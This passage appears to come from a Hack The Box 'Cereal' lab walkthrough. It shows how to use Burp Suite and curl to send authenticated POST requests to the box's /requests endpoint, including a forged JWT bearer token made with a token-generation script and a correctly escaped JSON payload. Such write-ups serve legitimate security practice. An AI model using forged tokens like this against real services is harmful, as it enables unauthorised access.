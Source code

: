# Cereal Requests

Now we've picked the code apart a little, we can try interacting with the site.

If we go to `/requests` in our browser and pass it to Burp, we can capture the request and then change the request method:

![[Pasted image 20210406085414.png]]

Press `Ctrl + R` to send to repeater, then right-click and select 'Change request method' to turn it into a POST request. We also need to set the `Content-Type` header to `application/json`, as the app expects JSON and otherwise responds with `415 Unsupported Media Type`.

![[Pasted image 20210406085814.png]]

Let's add our token to the request. We add the following header: `Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2MTgzMDA5ODMsIm5hbWUiOjF9.VgWvwKp0RMrr4NLnJxnIWoUJII3JQlUJecyFVpDlXvo` and resubmit the request.

*Note:* This is just the token I used when doing this box - it will expire after seven days, so you will need to generate your own using `gentoken.py` if you are doing this box.

![[Pasted image 20210406090351.png]]

We are no longer unauthorised :)

Now we need to craft a valid request. Experimenting with some JSON input gives us some clues about how to structure the request - namely, that the `"JSON"` field is required:

![[Pasted image 20210406090615.png]]

Submitting some more JSON reveals more about how it should be structured:

![[Pasted image 20210406091211.png]]

It seems to need `"` characters to be escaped - there were some clues about this in the source code, for example `var header = "{\\"typ\\":\\"JWT\\",\\"alg\\":\\"HS256\\"}";`, but just to be sure I formatted my payload by running it through the `JSON.stringify()` method used by the website.

I created the JS file `test-www/stringify.js`:

```javascript
console.log(JSON.stringify({ JSON: JSON.stringify({title:'t',flavor:'f',color:'#FFF',description:'d' }) }))
```

And ran it from a very simple HTML file:

```html
<html>
    <head>
        <script defer src="./stringify.js"></script>
    </head>
</html>
```

Opened it in firefox:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/cereal/test-www]
└─$ firefox index.html
```

![[Pasted image 20210406092035.png]]

This gives us the correctly-formatted payload:

```
{"JSON":"{\"title\":\"t\",\"flavor\":\"f\",\"color\":\"#FFF\",\"description\":\"d\"}"}
```

![[Pasted image 20210406092416.png]]

We have successfully created a cereal!

I tried to save the Burp request as a `curl` command, but it was quite temperamental. To replicate a request in `curl`, right click in repeater and press 'Copy as curl command'. I find it easier to do it in Burp Suite the first time, as it creates many of the headers for you, but for replicating it later `curl` is faster:

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 10.10.10.217' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' -H $'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2MTgzMDA5ODMsIm5hbWUiOjF9.VgWvwKp0RMrr4NLnJxnIWoUJII3JQlUJecyFVpDlXvo' -H $'Content-Type: application/json' -H $'Content-Length: 86' \
    --data-binary $'{\"JSON\":\"{\\\"title\\\":\\\"t\\\",\\\"flavor\\\":\\\"f\\\",\\\"color\\\":\\\"#FFF\\\",\\\"description\\\":\\\"d\\\"}\"}' \
    $'https://10.10.10.217/requests'
```